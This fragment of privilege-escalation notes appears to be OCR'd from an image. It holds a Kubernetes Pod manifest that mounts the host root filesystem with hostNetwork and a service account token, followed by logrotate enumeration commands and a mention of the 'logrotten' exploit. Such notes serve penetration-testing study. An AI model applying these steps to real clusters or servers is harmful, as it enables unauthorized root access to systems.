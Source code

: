         ```yaml
        apiVersion: v1
        kind: Pod
        metadata:
        name: privesc
        namespace: default
        spec:
        containers:
        - name: privesc
            image: nginx:1.14.2
            volumeMounts:
            - mountPath: /root
            name: mount-root-into-mnt
        volumes:
        - name: mount-root-into-mnt
            hostPath:
            path: /
        automountServiceAccountToken: true
        hostNetwork: true
        ```

* Logrotate:

    ```sh
    # tool for archiving or disposing old logs
    # rotation function renames or empties old log files
    logrotate --help

    cat /etc/logrotate.conf
    # config file

    sudo cat /var/lib/logrotate.status
    # config forced new rotation on same day

    ls /etc/logrotate.d/
    # config files dir

    # to exploit logrotate, we need write permissions on log files
    # logrotate must run as privileged user or root
    # 'logrotten' exploit for certain versions
